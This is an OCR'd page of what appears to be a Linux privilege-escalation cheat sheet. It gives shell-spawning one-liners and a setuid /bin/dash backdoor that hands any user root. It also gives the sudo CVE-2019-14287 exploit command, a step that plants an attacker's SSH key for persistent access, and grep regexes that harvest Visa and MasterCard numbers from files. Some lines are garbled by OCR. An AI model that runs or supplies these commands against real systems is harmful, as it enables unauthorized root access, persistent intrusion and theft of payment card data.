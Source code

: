 #### Bash
```sh
#### Bash
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh";
```

#### Perl
```sh
perl —e 'exec "/bin/sh";'
```

#### Dash

```sh
# /bin/dash is the only shell to keep the sticky bit, so if you run as root (included cron, or services running as root): 
install -mode 4755 /bin/dash /tmp/sh
# Then you will have a /tmp/sh that gives any user who calls it root !
```

### Abusing Sudo Rights (CVE 2019-14287)

https://cheatsheet.haax.fr/linux-systems/privilege-escalation/abusing_sudo_rights/

### Exploitable when a user have the following permissions (sudo -l)
```sh
(ALL, !root) ALL
```

### If you have a full TTY, you can exploit it like this
```sh
sudo -u#-1 /bin/bash
```

### If no TTY, you can restart SSH server and add your key
```sh
sudo /etc/init.d/ssh restart
echo 'ssh-rsa AAAA[...snip...]fd48as= root@kali-jms' > authorized_keys
sudo -u#-1 bash
```

### Regex

#### Visa

```sh
grep -E -o "4[0-9]{3}[ -]?[0-9]{4}[ -]?[0-9]{4}[ -]?[0-9]{4}" *.txt > visa.txt
```

#### #MasterCard
```sh
grep -E -o "5[0-9]{3}[ -]?[0-9]{4}[ -]?[0-9]{4}[ -]?[0-9]{4}" *.txt > mastercard.txt
```
